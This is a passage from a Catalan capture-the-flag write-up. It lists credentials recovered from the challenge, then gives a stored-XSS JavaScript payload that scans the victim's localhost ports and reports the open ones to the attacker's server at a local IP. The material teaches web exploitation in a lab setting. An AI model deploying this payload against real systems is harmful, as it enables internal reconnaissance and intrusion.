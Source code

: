 ![alt text](../../../assets/images/token-of-hate/image-11.png)

Les apuntem per recordar-les.

```text
['admin', 'dUnAyw92B7qD4OVIqWXd', 'admin'],
['Łukasz', 'dQnwTCpdCUGGqBQXedLd', 'user'],
['Þór', 'EYNlxMUjTbEDbNWSvwvQ', 'user'],
['Ægir', 'DXwgeMuQBAtCWPPQpJtv', 'user'],
['Çetin', 'FuLqqEAErWQsmTQQQhsb', 'user'],
['José', 'FuLqqEAErWQsmTQQQhsb', 'user'],
```

### Sol·licituds a recursos interns (SSRF)

Utilitzem el mateix Store XSS per mirar de descobrir recursos interns del servidor. Tornem a modificar el fitxer `script.js` del nostre servei web per fer un escaneig intern dels ports més habituals utilitzats per `http`. Cal canviar la IP `192.168.1.181` per la del vostre servei web.

```javascript
const ports=[66,80,81,443,445,457,1080,1100,1241,1352,1433,1434,1521,1944,2301,3000,3128,3306,4000,4001,4002,4100,5000,5432,5800,5801,5802,6346,6347,7001,7002,8000,8080,8443,8888,30821];
function handleLoad(x,p) {
  let y=new XMLHttpRequest();
  y.open("GET",`http://192.168.1.181/ping?port=${p}`);
  y.send();
}
ports.forEach( (p,i) =>
  setTimeout( () => {
    let x=new XMLHttpRequest();
    x.open("GET",`http://localhost:${p}`);
    x.timeout=300;
    x.onload=()=>handleLoad(x,p);x.send();
  }, i*10)
);
```

